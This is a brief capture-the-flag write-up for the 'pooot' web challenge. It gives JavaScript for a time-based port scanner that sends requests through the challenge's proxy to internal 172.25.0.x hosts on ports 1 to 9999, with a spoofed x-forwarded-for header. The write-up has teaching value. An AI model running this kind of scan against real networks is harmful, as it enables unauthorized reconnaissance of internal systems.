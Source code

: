 The intended solution was to use service workers in order to incercept which requests were being sent. For our solution, NotDeGhost implemented a time based port scanner which found the server and the port we were supposed to find via service workers instead.

Intended sol: https://cdn.discordapp.com/attachments/689364215047127055/711408475284176936/unknown.png
https://gist.github.com/terjanq/cd811311014dc16ef23d680c0ea89562

https://medium.com/bugbountywriteup/pooot-writeup-217384a6b69c

var sus = []

testPort = (base, port=6379) => {
const start = Date.now()

return fetch("https://pooot.challenges.ooo/172.25.0." + base + ":" + port, {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "en-US,en;q=0.9",
    "x-forwarded-for": "172.25.0.11",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "none",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrerPolicy": "no-referrer-when-downgrade",
  "body": null,
  "method": "GET",
  "mode": "cors",
  "credentials": "include"
}).then(a => a.text())
.then(a => {
if(Date.now() - start < 1000) sus.push(base)
if(a !== "Could not reach this domain") alert(base + ":" + port)

console.log(base + ":" + port + " > " + a + " | " + (Date.now() - start))
})
}

b = [101, 102, 103, 105, 110, 111, 112, 113, 114];
(async () => {
for(var i = 0; i < b.length; i++){
for(var port = 1; port < 10000; port++){
await testPort(b[i], port)
}
}
})()
